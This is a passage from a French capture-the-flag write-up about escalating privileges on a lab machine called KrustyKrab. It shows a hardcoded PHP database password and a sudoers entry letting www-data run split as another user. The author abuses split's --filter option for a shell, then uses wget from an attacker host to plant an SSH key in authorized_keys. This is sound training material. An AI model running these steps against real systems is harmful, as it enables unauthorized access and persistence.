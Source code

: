 Dans un fichier de configuration PHP je trouve un mot de passe :

```php
$servername = "localhost";
$username = "root";
$password = "RootRootandRootyou";
$dbname = "your_database";
$port = 3306;
```

Mais il ne semble pas réutilisé ailleurs. J'ai fouillé longuement, mais en dehors des dossiers personnels je n'ai pas trouvé de fichiers intéressants :

```console
www-data@KrustyKrab:/home$ ls -al
total 36
drwxr-xr-x  6 root       root       4096 Mar 27 02:30 .
drwxr-xr-x 19 root       root       4096 Jul 11  2023 ..
drwx------  3 KrustyKrab debian     4096 Mar 30 00:15 KrustyKrab
drwx------  3 Squidward  Squidward  4096 Mar 30 00:19 Squidward
drwx------  2 root       root      16384 Jul 11  2023 lost+found
drwx------  3 spongebob  spongebob  4096 Mar 30 00:15 spongebob
```

Je m'en suis remis à LinPEAS et j'ai découvert que `www-data` avait une entrée dans sudoers :

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
Matching Defaults entries for www-data on KrustyKrab:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on KrustyKrab:
    (KrustyKrab) NOPASSWD: /usr/bin/split
```

La commande `split` est bien connue pour découper des fichiers, mais moins pour exécuter des commandes.

J'ai d'abord tenté de faire un `split` sur la clé SSH de l'utilisateur, mais il n'en avait pas.

Il s'est avéré qu'il y a bien une exécution de commande possible :

```
--filter=COMMAND    write to shell COMMAND; file name is $FILE
```

J'ai réutilisé l'exemple de [GTFOBins](https://gtfobins.github.io/gtfobins/split/) :

```console
www-data@KrustyKrab:/tmp$ sudo -u KrustyKrab /usr/bin/split --filter=/bin/sh /dev/stdin
id
uid=1000(KrustyKrab) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth),1002(krustygroup)
cd /home/KrustyKrab
mkdir .ssh
cd .ssh                                                           
wget http://192.168.242.1:8000/key_no_pass.pub -O authorized_keys
--2025-05-06 20:59:03--  http://192.168.242.1:8000/key_no_pass.pub
Connecting to 192.168.242.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 399 [application/x-mspublisher]
Saving to: 'authorized_keys'

authorized_keys       100%[=================================>]     399  --.-KB/s    in 0s      

2025-05-06 20:59:03 (19.5 MB/s) - 'authorized_keys' saved [399/399]
```
